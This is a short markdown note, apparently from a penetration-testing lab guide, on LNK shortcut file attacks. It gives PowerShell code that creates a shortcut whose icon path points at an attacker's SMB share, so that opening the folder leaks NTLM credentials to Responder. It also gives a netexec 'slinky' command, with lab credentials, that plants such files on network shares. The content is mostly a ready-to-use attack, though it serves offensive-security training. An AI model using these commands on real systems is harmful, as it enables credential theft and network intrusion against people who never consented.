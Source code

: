 ### LNK File Attacks

Run PowerShell in Admin and create a file in this fashion  

`$objShell = New-Object -ComObject WScript.shell`  
`$lnk = $objShell.CreateShortcut("C:\test.lnk")`  
`$lnk.TargetPath = "\\192.168.138.149\@test.png"`  The IP here is the IP of your attack machine  
`$lnk.WindowStyle = 1`  
`$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"`  
`$lnk.Description = "Test"`  
`$lnk.HotKey = "Ctrl+Alt+T"`  
`$lnk.Save()`  

This actually misuses the icon in file explorer by forcing it to try and reach out to a share drive to get the icon image.  When you have responder running, this is just like connecting to a share drive.  This means the file needs to be as high on the list as possible so the icon is loaded

`netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149`  
This netexec/CME tool will also do the same thing.  Server is the attacker IP, name is the name of the file, the Module is slinky  

